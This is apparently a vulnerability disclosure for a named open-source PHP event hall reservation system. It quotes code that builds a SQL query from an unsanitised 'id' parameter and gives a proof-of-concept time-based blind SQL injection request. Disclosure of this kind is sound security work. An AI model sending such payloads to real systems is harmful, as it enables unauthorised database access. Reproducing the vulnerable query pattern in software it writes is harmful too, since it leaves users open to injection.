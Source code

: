# MAGESH-K21 / Online-College-Event-Hall-Reservation-System - Blind SQL Injection on logincheck.php via home.php

## **Credits**
> Joshua Lictan (https://github.com/skid-nochizplz/skid-nochizplz)<br/>

## Vendor Homepage:
> https://github.com/MAGESH-K21/Online-College-Event-Hall-Reservation-System/
>
## Affected Component
> /home.php
> /config/logincheck.php

## Code
#### home.php
```php
<?php include('config/logincheck.php');$id=$_GET['id'];?>
```
#### /config/logincheck.php
```php

    $id=$_GET['id'];
    $sql="SELECT * FROM tbl_user WHERE user_id='$id'";
    $res=mysqli_query($conn,$sql);
    if($res==True){
      while($row=mysqli_fetch_assoc($res)){
        $user_name=$row['user_name'];
        $user_dept=$row['user_dept'];
        $user_email=$row['user_email'];
        $user_password=$row['user_password'];
      }
    }
```

## Proof of Concept
**HTTP Request Example**
``` http request
GET /home.php?id=NoChizPlz'+union+select+sleep(5),1,1,1,1+%23 HTTP/1.1
Host: [REDACTED]
```

## Screenshot

![image](https://github.com/skid-nochizplz/skid-nochizplz/assets/60700937/e12c9931-b67c-4d05-af2b-772363f82d1c)

